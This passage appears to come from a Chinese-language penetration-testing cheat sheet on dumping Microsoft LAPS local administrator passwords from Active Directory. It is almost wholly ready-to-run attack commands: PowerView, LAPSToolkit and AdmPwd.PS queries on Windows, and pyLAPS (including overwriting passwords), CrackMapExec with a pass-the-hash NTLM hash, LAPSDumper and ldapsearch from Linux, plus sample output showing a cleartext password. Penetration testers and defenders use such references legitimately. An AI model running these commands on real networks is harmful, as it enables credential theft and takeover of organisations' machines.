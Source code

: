    * [PowerView](https://github.com/PowerShellEmpire/PowerTools)

     ```powershell
     PS > Import-Module .\PowerView.ps1
     PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
     ```

   * [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

     ```powershell
     $ Get-LAPSComputers
     计算机名称                密码                                 到期时间         
     ------------                --------                                 ----------         
     example.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18
     
     $ Find-LAPSDelegatedGroups
     $ Find-AdmPwdExtendedRights
     ```

   * Powershell AdmPwd.PS

     ```powershell
     foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
     ```

 - 从Linux：

   * [pyLAPS](https://github.com/p0dalirius/pyLAPS) 用于**读取**和**写入**LAPS密码：

     ```bash
     # 读取所有计算机的密码
     ./pyLAPS.py --action get -u '管理员' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
     # 将随机密码写入特定计算机
     ./pyLAPS.py --action set --computer 'PC01$' -u '管理员' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
     ```

   * [CrackMapExec](https://github.com/mpgn/CrackMapExec)：

     ```bash
     crackmapexec smb 10.10.10.10 -u '用户' -H '8846f7eaee8fb117ad06bdd830b7586c' -M laps
     ```

   * [LAPSDumper](https://github.com/n00py/LAPSDumper) 

     ```bash
     python laps.py -u '用户' -p '密码' -d 'domain.local'
     python laps.py -u '用户' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local' -l 'dc01.domain.local'
     ```

   * ldapsearch

     ```bash
     ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
     ```
